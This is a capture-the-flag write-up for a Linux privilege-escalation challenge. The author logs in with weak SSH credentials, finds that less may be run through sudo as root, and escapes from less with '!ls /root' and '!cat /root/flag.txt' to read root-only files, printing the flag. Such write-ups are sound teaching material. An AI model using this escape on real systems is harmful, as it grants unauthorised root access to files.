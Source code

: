 # A thief in Santa's House (linux) (authors: M1dwinter.sln)

## Description

```shell
Santa Claus is leaving for Christmas Tour. Unfortunately someone is trying to steal the secrets. Save the Christmas and be the first one. Get the flag in /root folder and escape.

Use elf with elf password for ssh connection.

PS: What a careless elf left the account with a really trivial password!
```

## Task analysis & solution

We have these details and hints provided to us from the get go:

- user: **`elf`**
- password: **`elf`**
- the docker instance to connect to
- A hint that the flag is in the **`/root`** folder

First, let's connect with the given details:

```shell
ssh 10.10.8.61 -p <port> -l elf
```

```
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-127-generic x86_64)
Last login: Tue Dec 31 14:08:54 2024 from 10.4.24.45
elf@fd3414fe8fed:~$
```

When I connected, I decided to take a look arround. Let's see who we are and what our home directory is:

```shell
$ pwd && whoami
/home/ubuntu
elf
```

We know the flag is in /root, so let's naively try to list the contents of that:

```shell
elf@fd3414fe8fed:~$ ls /root
ls: cannot open directory '/root': Permission denied
```
As a non-root user, access to the /root directory is restricted by default. This limitation emphasizes the need for privilege escalation.

At this point, we probably need to see exactly what we CAN do. The command 'sudo -l' can show us that. It is used to list the privileges and permissions a user has when running commands with sudo. Essentially, it shows what commands the user is allowed to execute with sudo based on the configuration in the /etc/sudoers file or any additional sudoers configuration files.

```shell
elf@fd3414fe8fed:~$ sudo -l
Matching Defaults entries for elf on fd3414fe8fed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User elf may run the following commands on fd3414fe8fed:
    (root) NOPASSWD: /usr/bin/less /root/sharedsecret.txt
```

Well well well, the user elf can run the less command as root on the file /root/sharedsecret.txt without a password. Let's see:

```shell
elf@fd3414fe8fed:~$ sudo /usr/bin/less /root/sharedsecret.txt | cat
The flag is really near!
```

Of course, that would've been too easy.. The good thing is that most of the time these viewer programs have a way to execute shell commands. In the case with LESS, a simple Google search reveals that you can do that with an exclamation mark in front or just enter interactive shell mode by doing !sh. 

So, !ls /root should work inside LESS. Let's try that:

```shell
elf@fd3414fe8fed:~$ sudo /usr/bin/less /root/sharedsecret.txt

!ls /root

flag.txt  sharedsecret.txt

```

It worked. Now we know there is one more file inside /root - flag.txt. Now let's just do !cat flag.txt inside LESS:

```shell
!cat /root/flag.txt

MilestoneCTF{make_Santa_happy_make_the_World_See}
```

The flag is **`MilestoneCTF{make_Santa_happy_make_the_World_See}`** 


